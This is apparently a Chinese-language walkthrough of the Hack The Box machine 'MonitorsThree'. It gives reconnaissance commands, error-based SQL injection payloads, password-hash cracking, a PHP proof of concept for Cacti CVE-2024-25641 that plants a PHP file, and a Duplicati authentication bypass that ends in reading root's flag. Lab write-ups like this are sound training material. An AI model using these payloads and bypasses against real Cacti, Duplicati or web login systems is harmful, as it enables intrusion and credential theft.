## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Basic Scan

### Nmap

```
nmap -A -O monitorsthree.htb
```



开放端口：`22`、`80`、`8084`

Web server：`nginx 1.18.0`

### Dirsearch

```
dirsearch -u monitorsthree.htb -t 50 
```



发现：`login.php`



## Subdomain Fuzzing

```
ffuf -w main.txt -u http://monitorsthree.htb -H "Host:FUZZ.monitorsthree.htb" -ac
```





发现子域名，以及版本信息

经过搜寻之后并没有可以直接不登陆的poc

## SQL Injection

在找回密码页面发现`admin`和`admin' and 1=1#`的结果都是通过，而其他的不存在的用户名则报错



这里猜测是有sql注入漏洞，将抓的包写入一个文件



```
sqlmap -r monitors.req -dbms=mysql --dump
```

可以看出确实是存在SQL注入漏洞，这里测出是时间盲注



由于Sqlmap实在跑的是太慢了，因为有报错信息，顺手就测了一下，发现能直接报错注入

```
admin' and extractvalue(1,concat('~',database()))#
```



```
admin' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())))#
```



报错信息长度有限，这里使用`substirng`来截取

```
admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(table_name),40,30) FROM information_schema.tables WHERE table_schema=database())))#
```



发现一个users表

```
admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(column_name),1,30) FROM information_schema.columns WHERE table_name='users')))#
```



然后获取`username`和`password`

```
admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(username,':',password),1,30) FROM users)))#
```

admin：31a181c8372e3afc59dab863430610e8

```
hashcat '31a181c8372e3afc59dab863430610e8' -m 0 /usr/share/wordlists/rockyou.txt
```



然后即可登录`cacti`子域名



## CVE-2024-25641

如果是能够进入cacti的情况下，是有CVE可以利用的

Github：[RCE vulnerability when importing packages · Advisory · Cacti/cacti (github.com)](https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88)

```
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/test.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php phpinfo(); ?>";
$keypair = openssl_pkey_new(); 
$public_key = openssl_pkey_get_details($keypair)["key"]; 
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");

?>
```

运行这段代码，会生成一个gz文件，在cacti里上传



可以看到写入成功



接下来准备反弹shell，只需要修改一下php代码里的参数即可



在`include` 下的`config.php` 中发现数据库的用户名和密码



并且靶机只允许密钥登录



mysql登录拿到marcus的密码哈希



使用`hashcat`爆破

```
hashcat hash.txt -m 3200 /usr/share/wordlists/rockyou.txt
```



由于不能用密码登录，就直接在反弹shell里切换用户



## Privilege Escalation

将私钥文件保存到kali



权限改为600，即可ssh登录



查看内部端口情况



添加端口映射

```
ssh -L 8200:127.0.0.1:8200 marcus@monitorsthree.htb  -i marcus.rsa
```





搜索一下这个duplicate

Github：[使用 DB Server-Passphrase 绕过重复登录身份验证 ·问题 #5197 ·duplicati/duplicati (github.com)](https://github.com/duplicati/duplicati/issues/5197)



将文件夹中的sqlite文件下载

发现类似于密码的东西，还有盐值



根据此步骤重现



```
var saltedpwd = '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a'; 
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('wDgyoYHEiXayJpfp3jE09CiTfnhlZKl//JzmoLhb8bw=') + saltedpwd)).toString(CryptoJS.enc.Base64); 
console.log(noncedpwd);
```



成功进入后台



并且这里可以上传一些文件，并且执行一些任务



将backup目标选择为/marcus目录，source data选择为root下的txt文件

点击Run now ，然后进入restore





即可获取到root.txt



## Summary

最后提权的部分，理论上来说能把marcus的公钥添加到`/root/.ssh`中的`authorized_keys`，从而实现外部使用marcus的私钥登录为root用户。（不过这里能直接获取到root的flag）

目前我做过的HTB里面，SQL注入好像还很少，本题中可以用sqlmap，也可以手动尝试，因为sqlmap不一定准确。
